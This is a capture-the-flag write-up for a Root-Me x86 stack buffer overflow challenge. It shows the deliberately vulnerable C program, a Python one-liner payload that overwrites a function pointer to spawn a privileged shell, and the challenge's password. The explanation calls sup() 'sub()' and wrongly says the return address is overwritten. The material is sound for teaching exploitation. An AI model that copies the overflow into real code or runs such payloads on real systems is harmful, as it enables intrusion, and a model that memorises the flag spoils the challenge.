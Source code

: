 # ELF x86 - Stack buffer overflow basic 2
- Point: 10pts
- Author: [Lyes](https://www.root-me.org/Lyes?lang=en), 10 April 2015
- Level: Very Easy
- Statement
- Environment configuration <br>
```
  PIE	    Position Independent Executable	 ✘ 
  RelRO	    Read Only relocations	         ✘ 
  NX	    Non-Executable Stack	         ✔ 
  Heap exec Non-Executable Heap	                 ✔ 
  ASLR	    Address Space Layout Randomization	 ✘ 
  SF	    Source Fortification	         ✘ 
  SSP	    Stack-Smashing Protection            ✘
  SRC	    Source code access	                 ✔ 
```
## Write-up:
Code:
```
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
 
void shell() {
    setreuid(geteuid(), geteuid());
    system("/bin/bash");
}
 
void sup() {
    printf("Hey dude ! Waaaaazzaaaaaaaa ?!\n");
}
 
void main()
{
    int var;
    void (*func)()=sup;
    char buf[128];
    fgets(buf,133,stdin);
    func();
}
```
## Write-up:
- As a normal code flow, the program will point to the address of **sub()** function and execute it. So we need to override the "ret addr" and point it to **shell()** function. 
- First we will fill the **buf**'s value with 128 "A" characters, and then push the address of the **shell()** function.  
### Solution:
Payload: (python -c "print('a'*128+'\x16\x85\x04\x08')";cat) | ./ch15
Password: B33r1sSoG0oD4y0urBr4iN

